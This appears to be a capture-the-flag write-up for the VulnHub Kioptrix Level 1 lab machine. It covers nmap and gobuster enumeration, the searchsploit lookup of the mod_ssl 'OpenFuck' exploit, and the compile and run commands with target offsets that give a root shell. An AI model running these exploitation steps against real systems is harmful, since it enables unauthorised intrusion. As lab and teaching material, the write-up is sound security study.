 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.104  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.104`

 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit

`searchsploit mod_ssl`

< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev

`apt-get install libssl-dev`

It also explains how to compile

`gcc -o exploit 47080.c -lcrypto`

Now we need to find out how to use it properly, so run the script

`./exploit`

It presents us with:

```
: Usage: ./script target box [port] [-c N

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know
```

and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first

`./exploit 0x6a x.x.x.104 -c 40`

Unsucessful

`./exploit 0x6b x.x.x.104 -c 40`

It Works! We are now root

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine

### TTY shell

unnecessary step but would prove useful if we had any other steps to perform.

`/bin/bash -i`


